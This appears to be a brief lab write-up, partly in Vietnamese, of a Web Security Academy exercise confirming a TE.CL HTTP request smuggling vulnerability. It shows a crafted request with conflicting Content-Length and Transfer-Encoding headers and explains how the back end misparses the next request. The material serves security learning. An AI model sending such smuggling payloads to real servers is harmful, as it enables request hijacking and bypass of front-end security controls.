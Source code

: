 ## HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

1. Để trigger HTTP 404 Not Found. Access đến 1 endpoint not found trên hệ thống.
```
Content-Length: 4
Transfer-Encoding: chunked

60
POST /cuong HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

![image](https://user-images.githubusercontent.com/80744099/227017918-12eca1b0-378c-4bb5-b3f3-21db8bbc99e9.png)

2. Vì BE xử lý CL header (được set ở đây là 4) nên request thứ 2 được gửi đi có dạng

```POST /cuong HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0POST / HTTP/1.1
Host: 0aae00e8049c4271c27da84500c500c3.web-security-academy.net
```
